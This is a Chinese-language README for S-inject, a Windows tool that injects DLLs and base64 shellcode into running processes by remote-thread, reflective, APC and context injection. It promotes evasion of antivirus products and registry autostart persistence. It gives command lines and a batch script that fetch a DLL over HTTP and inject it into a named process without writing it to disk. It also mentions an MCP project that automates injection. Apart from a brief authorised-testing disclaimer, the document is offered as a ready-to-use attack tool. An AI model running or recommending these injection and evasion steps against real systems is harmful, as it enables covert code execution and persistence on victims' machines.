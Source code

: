 ![](https://img.shields.io/badge/joe1sn-S_inject-green)  ![](https://img.shields.io/badge/windows-C++-yellow)

<h1><p align="center">S-inject</p></h1>

<p align="center">DLL+Shellcode的Windows注入免杀工具</p>

<p align="center"><img src="./README.assets/image-20240205141410967.png"></p>

只是罗列各种方法，免杀推荐搭配其他技巧，要具体灵活使用

**须知：**

1. 反射式注入参考了著名github项目：https://github.com/stephenfewer/ReflectiveDLLInjection
   该项目为反射式注入支持的DLL
2. Shellcode使用base64编码后的shellcode
3. 相关测试的DLL文件在`Test Files`文件夹中

**免责声明：** 本工具仅供教育和授权测试目的使用。开发者及贡献者不支持、不鼓励也不赞成任何非法或未经授权的使用。 用户有责任确保其使用本工具的行为符合所有适用的法律法规。严禁将本工具用于任何未经授权的活动。 开发者及贡献者对使用本工具造成的任何损害或后果不承担责任。使用前请自行承担风险。 通过使用本工具，您同意这些条款，并对您的行为承担全部责任。

# Update

- **[2025-4-6]** **重要：** 新创建分支(branch)：mcp，相关的DLL在这里维护。MCP模型上下文协议自动完成注入项目地址：https://github.com/Joe1sn/inject-mcp
- **[2025-4-3]** 使用gui界面时自动生成`imgui.ini`，优化界面排版

- **[2025-2-19]** 变化主题
- **[2025-2-17]**

1. 新增远程URL加载DLL
2. 由于 [issues 4](https://github.com/Joe1sn/S-inject/issues/4)等的反应，使用参数快速完成注入

- **[2024-7-7]** 优化一个进程选择Bug，详细见 [issues 2](https://github.com/Joe1sn/S-inject/issues/2)
- **[2024-6-18]** 修复选择进程和遍历进程快速闪烁的问题。修复后需要重新开打功能才能看到新的进程。
- **[2024-6-6]** 

1. 更好的GUI布局，支持Docking。
  2. 代码整理，优化项目文件结构，尽量贴合我认为（~~知道~~）的现代cpp规范。
  3. 遍历部分使用 `NtQuerySystemInformation`  （虽然会导致快速刷新）

- **[2024-5-24]**  **更新GUI图形化界面**，之前版本只保留原始二进制文件。貌似之前就被defender识别到了....

- **[2024-5-16]** 更新远程线程注入，让取消DLL注入更加便捷，便于第二次注入
- **[2024-4-1]** 更新DLL的暴力注入，详细见readme->使用->DLL自动注入/暴力注入
- **[2024-3-8]** 更新64位`CreateRemoteThread`为直接系统调用，方法采用`SysWhispers3`项目

# New Feature

- [2025-2-19] V2.2.1更新

  更换了主题配色，更多配色在`app/utils/theme.hpp`内，更换主题需要重新编译（因为有的主题没有测试完，所以暂时不会运行时改变主题）

  ![image-20250219105558106](./README.assets/image-20250219105558106.png)

- [2025-2-17] V2.2更新

  1. 新增远程URL进行Get请求加载DLL，可以实现dll文件不落地加载dll，由于依赖反射式注入，所以dll的格式应该与反射式注入的相同，格式为：https://github.com/stephenfewer/ReflectiveDLLInjection

     ![image-20250217173155506](./README.assets/image-20250217173155506.png)

  2. 添加参数可以快速完成注入

     `-method`：使用的注入方法

     - `rmtdll`：远程线程注入DLL
     - `refdll`：反射式注入DLL
     - `apcdll`：APC队列注入DLL

     - `net`：从网络加载DLL注入DLL
     - `rmtsc`：远程线程注入Shellcode
     - `apcsc`：APC队列注入Shellcode
     - `ctxsc`：上下文注入Shellcode

     `-proc`：注入进程的名字

     `-path`：dll的文件路径、dll的url（http开头）、base64后的shellcode

     `-pid`：进程`PID`

     用例

     ```
     .\S-Inject_x86_gui.exe -method net -proc "x32dbg" -path "http://127.0.0.1/reflective_x86.dll"
     ```

     ![image-20250217193111847](./README.assets/image-20250217193111847.png)

     可以据此编写对应的bat脚本来实现自动注入，如这里的`test.bat`

     ```
     @echo off
     D:\Github\S-inject\Release\S-Inject.exe -method net -proc "x32dbg" -path "http://127.0.0.1/reflective_x86.dll"
     pause
     ```

     这样双击该bat脚本即可向`x32dbg`的进程使用`网络加载`注入url为`http://127.0.0.1/reflective_x86.dll`的dll

- [2024-6-6] V2.1更新

  1. Docking，拖拽可以重新排版

     ![image-20240606124658850](./README.assets/image-20240606124658850.png)
     
  2. ImGUI窗口排版通过`imgui.ini`保存，可参考我的排版（ini文件位于bin中，使用时放于同一目录下）
  
     ![image-20240606224950591](./README.assets/image-20240606224950591.png)

# 免杀效果

远程shellcode注入等功能可免杀火绒，VNC无感，可注册表添加开机自启动

![image-20240216112653373](./README.assets/image-20240216112653373.png)

![image-20240216113029381](./README.assets/image-20240216113029381.png)

![image-20240216113432922](./README.assets/image-20240216113432922.png)

![image-20240216113917066](./README.assets/image-20240216113917066.png)

# 支持功能

![image-20240205124826998](./README.assets/image-20240205124826998.png)

**DLL注入**

- 远程线程注入
- 反射式注入
- APC调度注入

**Shellcode注入**

- 远程线程注入
- APC调度注入
- Context上下文注入

**可注入进程遍历**

# 使用

1.x版本（无图像化界面）使用说明见：`oldREADME.md`

![image-20250217193433513](./README.assets/image-20250217193433513.png)

直接勾选对应功能，选择DLL/Shellcode，和对应进程的PID

<img src="./README.assets/image-20240520101608876.png" alt="image-20240520101608876" style="zoom: 80%;" />

![image-20240520101704029](./README.assets/image-20240520101704029.png)

最后点击`start`开始注入

